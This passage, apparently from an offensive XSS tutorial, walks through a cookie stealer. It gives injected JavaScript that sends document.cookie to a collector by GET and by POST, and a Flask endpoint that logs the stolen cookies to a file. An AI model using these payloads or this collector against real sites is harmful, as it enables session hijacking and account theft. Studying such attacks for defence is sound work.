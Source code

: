 <br>
The new cookie.js we can inject would be like:
```
var i=new Image;
i.src="http://127.0.0.1:5000/saveGetCookie?a="+document.cookie;
```
<br>
![](/img/OffensiveXSS1/savedCookie.PNG)

<h2>Upgrade the server</h2>
So now we have a basic server that works. We can save the contents of the HTTP GET requests into a file and then extract some data. At the beginning of the module we created a cookie stealer that sends a post request. We should upgrade our server to save that too.
<br>

```
from flask import Flask
from flask import request

app = Flask(__name__)

@app.route("/saveCookie", methods=['POST', 'GET'])
def saveGetCookie():
    cookie = ""
    if request.method == 'GET':
        cookie = request.args.get("a")
    else:
        print(request.form["a"])
        cookie = request.form["a"]
    f = open("savedCookies.txt", "a")
    f.write(cookie)
    f.write("\n")
    f.close()
```
So what happened here? The endpoint name changed, because it is not just GET request that gets saved from now on. Then we added POST to the parameters too. Then we check if the incoming request is GET, if yes, we proceed as we did. If the request is POST, we will use the form value of the request. That is a multidict and from that we grab the parameter 'a'. So the incoming post request body will look like something along the line:
<br>
```
a=cookiesandvalues
```
<br>
We will be retrieving cookies and values and put it in the variable cookie. After that no matter where the request came from, we save the result in the file. Then we add a new line character just to keep things a little more clear.
We also had to upgrade the cookiePost.js script. We added the parameter in the body, we set the content type to application/x-www-form-urlencoded so that the request.form can parse it without issue. This can be achieved by using the setRequestHeader() function.
<br>
The final result is as seen below.
cookiePost.js
<br>
```
var url = "http://127.0.0.1:5000/saveCookie";
var body = "a=" + document.cookie;
xr = new XMLHttpRequest();
xr.open("POST", url, true);
xr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")
xr.send(body);
```